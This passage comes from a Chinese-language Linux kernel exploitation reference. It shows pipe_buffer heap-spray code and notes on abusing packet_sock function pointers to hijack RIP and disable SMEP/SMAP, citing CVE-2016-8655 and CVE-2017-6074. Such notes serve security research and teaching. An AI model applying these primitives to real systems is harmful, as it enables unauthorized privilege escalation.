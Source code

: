 **构造**：

```c
#define NUM_PIPEFDS 256
int pipefd[NUM_PIPEFDS][2];
// spray
  for (int i = 0; i < NUM_PIPEFDS; i++) {
    if (pipe(pipefd[i]) < 0) {
      perror("[-] pipe");
      goto err_rmid;
    }
    // Write something to populate pipe_buffer.
    if (write(pipefd[i][1], "pwn", 3) < 0) {
      perror("[-] write");
      goto err_rmid;
    }
  }
// release, trigger
  for (int i = 0; i < NUM_PIPEFDS; i++) {
    if (close(pipefd[i][0]) < 0) {
      perror("[-] close");
      goto err_rmid;
    }
    if (close(pipefd[i][1]) < 0) {
      perror("[-] close");
      goto err_rmid;
    }
  }
```

#### 10. [packet_socket](https://elixir.bootlin.com/linux/v4.19.98/source/net/packet/internal.h#L105)

**参考**：[CVE-2016-8655](https://www.anquanke.com/post/id/85162)  [CVE-2017-6074](https://www.anquanke.com/post/id/253478)

**size**：`kmalloc-2048`    5.11.14版本中大小为0x5c0。

**劫持RIP**：

- `packet_sock` -> `rx_ring` -> `prb_bdqc` -> `retire_blk_timer` -> `function`。在timeout超时后调用，**可传参**，可用于执行`native_write_cr4(0x406e0)`来关闭SMEP/SMAP。
- `packet_socket` -> `xmit`。在接收数据时调用。

**分配 packet_sock**：`socket(AF_PACKET, SOCK_DGRAM, htons(ETH_P_ARP));` —— `sock(AF_PACKET)` -> `packet_create` -> [sk_alloc](https://elixir.bootlin.com/linux/v5.11.14/source/net/core/sock.c#L1734)  

**分配timer**：`setsockopt(fd, SOL_PACKET, PACKET_RX_RING, (void*)&tp, sizeof(tp));` —— [packet_set_ring()](https://elixir.bootlin.com/linux/v4.9.12/source/net/packet/af_packet.c#L4161)->[init_prb_bdqc()](https://elixir.bootlin.com/linux/v4.9.12/source/net/packet/af_packet.c#L603)->[prb_setup_retire_blk_timer()](https://elixir.bootlin.com/linux/v4.9.12/source/net/packet/af_packet.c#L547)->[prb_init_blk_timer()](https://elixir.bootlin.com/linux/v4.9.12/source/net/packet/af_packet.c#L537)

```c
struct packet_sock {
	/* struct sock has to be the first member of packet_sock */
	struct sock		sk;
	struct packet_fanout	*fanout;
	union  tpacket_stats_u	stats;
	struct packet_ring_buffer	rx_ring;					// <--------------- rx_ring
	struct packet_ring_buffer	tx_ring;
	... ...
	int			(*xmit)(struct sk_buff *skb);
	struct packet_type	prot_hook ____cacheline_aligned_in_smp;
};
struct packet_ring_buffer {
    struct pgv        *pg_vec;
    ... ...
```